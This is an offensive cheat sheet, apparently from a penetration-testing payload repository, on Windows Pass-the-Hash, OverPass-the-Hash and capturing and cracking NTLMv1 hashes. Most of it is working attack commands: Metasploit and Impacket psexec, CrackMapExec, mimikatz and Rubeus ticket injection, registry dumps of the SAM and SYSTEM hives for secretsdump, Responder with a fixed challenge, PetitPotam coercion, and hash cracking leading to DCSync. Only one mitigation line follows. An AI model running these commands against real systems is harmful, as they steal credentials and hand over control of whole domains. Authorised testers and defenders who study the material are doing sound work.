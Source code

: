 ## Pass-the-Hash

The types of hashes you can use with Pass-The-Hash are NT or NTLM hashes. Since Windows Vista, attackers have been unable to pass-the-hash to local admin accounts that weren’t the built-in RID 500.

- Metasploit
    
    ```
    use exploit/windows/smb/psexec
    set RHOST 10.2.0.3
    set SMBUser jarrieta
    set SMBPass nastyCutt3r  
    # NOTE1: The password can be replaced by a hash to execute a `pass the hash` attack.
    # NOTE2: Require the full NT hash, you may need to add the "blank" LM (aad3b435b51404eeaad3b435b51404ee)
    set PAYLOAD windows/meterpreter/bind_tcp
    run
    shell
    ```
    
- CrackMapExec
    
    ```
    cme smb 10.2.0.2/24 -u jarrieta -H 'aad3b435b51404eeaad3b435b51404ee:489a04c09a5debbc9b975356693e179d' -x "whoami"
    ```
    
- Impacket suite
    
    ```
    proxychains python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
    ```
    
- Windows RDP and mimikatz
    
    ```
    sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:b73fdfe10e87b4ca5c0d957f81de6863
    sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the users ntlm hash> /run:"mstsc.exe /restrictedadmin"
    ```
    

You can extract the local **SAM database** to find the local administrator hash :

```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## OverPass-the-Hash (pass the key)

In this technique, instead of passing the hash directly, we use the NT hash of an account to request a valid Kerberost ticket (TGT).

### Using impacket

```
root@kali:~$ python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
root@kali:~$ export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
root@kali:~$ python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass

# also with the AES Key if you have it
root@kali:~$ ./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com

root@kali:~$ ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
root@kali:~$ kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
root@kali:~$ klist
```

### Using Rubeus

```
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 hash
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```

## Capturing and cracking Net-NTLMv1/NTLMv1 hashes

> Net-NTLM (NTLMv1) hashes are used for network authentication (they are derived from a challenge/response algorithm and are based on the user's NT hash.

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:

- LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:

- Capturing using Responder: Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge
    
    ```
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
    
- Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
    
- Force a callback:
    
    ```
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
    
- If you got some `NTLMv1 hashes`, you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)
    
    ```
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
    ```
    
- Or crack them with Hashcat / John The Ripper
    
    ```
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt
    ```
    
- Now you can DCSync using the Pass-The-Hash with the DC machine account
    

:warning: NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.

**Mitigations**:

- Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`